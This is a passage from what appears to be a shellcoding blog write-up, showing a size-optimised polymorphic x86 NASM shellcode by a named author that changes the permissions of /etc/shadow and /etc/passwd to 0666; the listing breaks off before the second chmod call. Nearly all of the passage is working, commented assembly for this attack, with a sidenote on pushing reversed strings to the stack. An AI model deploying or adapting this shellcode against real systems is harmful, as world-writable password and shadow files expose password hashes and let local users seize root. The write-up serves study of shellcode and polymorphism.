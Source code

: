 It changes the permissions on the files `/etc/passwd` and `/etc/shadow` to `0666`. After that, it uses the `exit` syscall to terminate its own execution.

### Polymorphic version

#### Focus on size

Follows the smallest version I managed to write:

```nasm
; Author: Robert C. Raducioiu (rbct)

global _start

section .text

_start:

    ; clear ECX, EAX, EDX
    xor ecx, ecx
    mul ecx

    ; store "/etc" into ESI
    ;   this allows me to reuse this value for the second call to chmod
    mov esi, 0x6374652f

    ; add a NULL byte (in this case a NULL DWORD) at the end of the string
    ;   pushed to the stack
    push eax

    ; store the string "/etc//shadow" on the stack
    push dword 0x776f6461
    push dword 0x68732f2f
    push esi
```

{% sidenote Remember that when you push a string to the stack, the bytes must be **reversed**, as **the stack grows downward**  %}

```nasm
    ; 1st argument of chmod(): const char *pathname
    ; store into EBX the pointer to "/etc//shadow"
    mov ebx,esp

    ; set EAX to 0x0000000f -> chmod() syscall
    add al, 0xf

    ; 2nd argument of chmod(): mode_t mode
    ; in this case ECX is set to the binary value 110110110
    mov cx,0x1b6

    ; call chmod()
    int 0x80

    ; set EAX to 0 and push it to the stack;
    ; like before, it acts as the string terminator
    mov eax, edx
    push eax

    ; push "/etc//passwd" to the stack
    push dword 0x64777373

    ; also set EAX to 0x0000000f -> chmod() syscall
    add al, 0xf
    push dword 0x61702f2f

```